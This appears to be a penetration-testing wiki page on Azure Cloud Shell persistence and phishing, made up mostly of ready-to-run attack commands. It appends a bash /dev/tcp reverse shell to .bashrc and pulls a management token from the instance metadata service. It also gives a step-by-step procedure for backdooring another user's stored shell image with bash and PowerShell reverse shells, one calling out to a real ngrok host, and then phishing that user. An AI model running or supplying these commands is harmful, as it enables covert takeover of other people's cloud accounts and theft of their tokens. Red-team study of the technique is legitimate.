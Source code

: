 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell offers command-line access to manage Azure resources with persistent storage and automatic authentication. Attackers can exploit this by placing backdoors in the persistent home directory:

* **Persistent Storage**: Azure Cloud Shell’s home directory is mounted on an Azure file share and remains intact even after the session ends.
* **Startup Scripts**: Files like `.bashrc` or `config/PowerShell/Microsoft.PowerShell_profile.ps1` execute automatically at the start of each session, allowing for persistent execution when the cloud shell starts.

Example backdoor in .bashrc:

```bash
echo '(nohup /usr/bin/env /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```

This backdoor can execute commands even 5 minutes after the cloud shell is finished by the user.

Additionally query Azure’s metadata service for instance details and tokens:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```

### Cloud Shell Phishing

If an attacker finds other users images in a Storage Accout he has write and read access to, he will be able to download the image, **add a bash and PS backdoor into it**, and upload it back to the Storage Account so next time the user access the shell, the **commands will be automatically executed**.

- **Download, backdoor and uplaod the image:**

```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name> -s <file-share>

# Mount the image
mkdir /tmp/backdoor_img
sudo mount ./.cloudconsole/acc_carlos.img /tmp/backdoor_img
cd /tmp/backdoor_img

# Create backdoor
mkdir .config
mkdir .config/PowerShell
touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo '$client = New-Object System.Net.Sockets.TCPClient("7.tcp.eu.ngrok.io",19838);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' >> .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Unmount
cd /tmp
sudo umount /tmp/backdoor_img

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img" -s <file-share>
```

- **Then, phish the user to access https://shell.azure.com/**


{{#include ../../../banners/hacktricks-training.md}}


